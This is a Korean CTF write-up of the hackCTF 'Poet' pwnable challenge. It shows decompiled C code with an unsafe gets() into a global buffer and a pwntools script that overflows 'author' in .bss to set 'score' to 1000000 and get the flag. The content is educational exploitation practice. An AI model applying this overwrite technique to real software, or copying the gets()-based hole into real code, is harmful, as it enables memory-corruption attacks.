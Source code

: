 ```yaml
---
layout: post
title:  "[hackCTF]Poet"
date:   2020-02-18
categories: [hackCTF]
tags: [hackCTF]
permalink: '/hackCTF'
---
```


hackCTF pwnable 13번째 문제

![favicon](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/favicons.png?raw=true)

## ida - main
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  setvbuf(_ bss_start, 0LL, 2, 0LL);
  puts(s);
  while ( 1 )
  {
    get_poem();
    get_author();
    rate_poem();
    if ( score == 1000000 )
      break;
    puts(asc_400D78); "음.. (중략) 다시 시도해 주세요!" 출력
  }
  reward();
}
```

## ida - get_author
```c
__int64 get_author()
{
  printf(&byte_400C38); // "이 시의 저자는 누구입니까?" 출력
  return gets(&author);
}
```

## ida - get_poem
```c
__int64 get_poem()
{
  __ int64 result; // rax

  printf("Enter :\n> ");
  result = gets(poem);
  score = 0;
  return result;
}
```

## ida - rate_poem
```c
int rate_poem()
{
  char dest; // [rsp+0h] [rbp-410h]
  char * s1; // [rsp+408h] [rbp-8h]

  strcpy(&dest, poem);
  for ( s1 = strtok(&dest, " \n"); s1; s1 = strtok(0LL, " \n") )
  { // 시를 행 단위로 자름
    if ( !strcmp(s1, "ESPR")
      || !strcmp(s1, "eat")
      || !strcmp(s1, "sleep")
      || !strcmp(s1, "pwn")
      || !strcmp(s1, "repeat")
      || !strcmp(s1, "CTF")
      || !strcmp(s1, "capture")
      || !strcmp(s1, "flag") )
    {
      score += 100; // 위의 단어 중 하나라도 들어가면 +100
    }
  }
  return printf(asc_400BC0, poem, (unsigned int)score);
}
```

## ida - reward
```c
void __noreturn reward()
{
  char s; // [rsp+0h] [rbp-90h]
  FILE * stream; // [rsp+88h] [rbp-8h]

  stream = fopen("./flag.txt", "r");
  fgets(&s, 128, stream);
  printf(format, &author, &s); // flag 출력
  exit(0);
}
```

처음엔 get_poem이나 get_author, rate_poem 함수의 ret을 덮어서 문제를 해결하려 했다. 하지만 poem이나 author은 .bss 영역에 존재하므로 ret을 덮을 수 없었다. 대신 score의 값을 1000000로 변조하고자 했다.

author는 .bss:6024A0에 위치하고 score는 .bss:6024E0에 위치한다. get_author함수에서 author을 입력 받을 때 score 값까지 덮으면 될 것 같다. 주의해야 할 점은 main에서 score과 비교하는  1000000은 int형이므로 payload를 작성할 때 1000000에 해당하는 문자열로 변환해야 한다.

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3012)

payload = "A"*(0x6024E0-0x6024A0) + p32(0xF4240) # 1000000 = 0xF4240

p.recvuntil("> ")

p.sendline("asdf")

p.recvuntil("> ")

p.sendline(payload)

p.interactive()
```

## 결과
![1301](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/1301.JPG?raw=true)
